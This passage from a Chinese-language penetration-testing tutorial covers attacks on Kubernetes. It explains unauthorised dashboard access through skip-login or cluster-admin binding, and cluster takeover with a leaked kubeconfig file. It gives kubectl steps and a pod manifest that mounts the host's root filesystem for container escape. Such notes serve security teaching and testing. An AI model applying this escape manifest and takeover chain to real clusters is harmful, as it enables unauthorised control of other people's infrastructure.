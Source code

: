 ### 4.1.5 8001端口，Dashboard未授权访问  
  
配置不当导致dashboard未授权访问,通过dashboard我们可以控制整个集群。  
  
kubernetes dashboard的未授权其实分两种情况：  
  
一种是在本身就存在着不需要登录的http接口，但接口本身并不会暴露出来，如接口被暴露在外，就会导致dashboard未授权。另外一种情况则是开发嫌登录麻烦，修改了配置文件，使得安全接口https的dashboard页面可以跳过登录。  
  
复现利用：  
  
*用户开启enable-skip-login时可以在登录界面点击跳过登录进dashboard  
  
*Kubernetes-dashboard绑定cluster-admin（拥有管理集群的最高权限）  
  
1、安装：https://blog.csdn.net/justlpf/article/details/130718774  
  
2、启动：kubectl create -f recommended.yaml  
  
3、卸载：kubectl delete -f recommended.yaml  
  
4、查看：kubectl get pod,svc -n kubernetes-dashboard  
  
5、利用：新增Pod后续同前面利用一致  
  
*找到暴露面板->dashboard跳过-创建或上传pod->进入pod执行-利用挂载逃逸  
```
apiVersion: v1
kind: Pod
metadata:
  name: xiaodisec
spec:
  containers:
  - image: nginx
    name: xiaodisec
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```  
  
  
  
攻击者通过Webshell、Github等拿到了K8s配置的Config文件，操作集群，从而接管所有容器。K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息(API Server、登录凭证)。如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到Github的代码等)，就可以直接通过API Server接管K8s集群，带来风险隐患。用户凭证保存在kubeconfig文件中，通过以下顺序来找到kubeconfig文件：  
  
-如果提供了--kubeconfig参数，就使用提供的kubeconfig文件  
  
-如果没有提供--kubeconfig参数，但设置了环境变量$KUBECONFIG，则使用该环境变量提供的kubeconfig文件  
  
-如果以上两种情况都没有，kubectl就使用默认的kubeconfig文件~/.kube/config  
  
*复现利用：  
  
*K8s-configfile->创建Pod/挂载主机路径->Kubectl进入容器->利用挂载逃逸  
  